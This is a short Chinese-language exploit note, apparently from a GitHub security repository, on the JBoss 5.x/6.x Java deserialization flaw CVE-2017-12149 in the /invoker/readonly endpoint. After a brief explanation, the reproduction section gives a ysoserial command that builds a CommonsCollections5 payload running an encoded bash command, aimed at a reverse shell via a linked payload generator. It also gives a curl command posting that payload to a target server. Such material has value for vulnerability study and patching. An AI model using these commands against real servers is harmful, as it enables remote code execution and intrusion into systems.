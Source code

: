 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

## 漏洞介绍:

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

## 漏洞分析：

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![image-20210401130731439](image-20210401130731439.png)

## 漏洞复现：

java 反弹shell
http://www.jackson-t.ca/runtime-exec-payloads.html

**生成exp**

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,xxxxx}|{base64,-d}|{bash,-i}" > poc.ser
```

**通过curl发送**

```curl
curl http://xxxx:8080/invoker/readonly  --data-binary @poc.ser
```


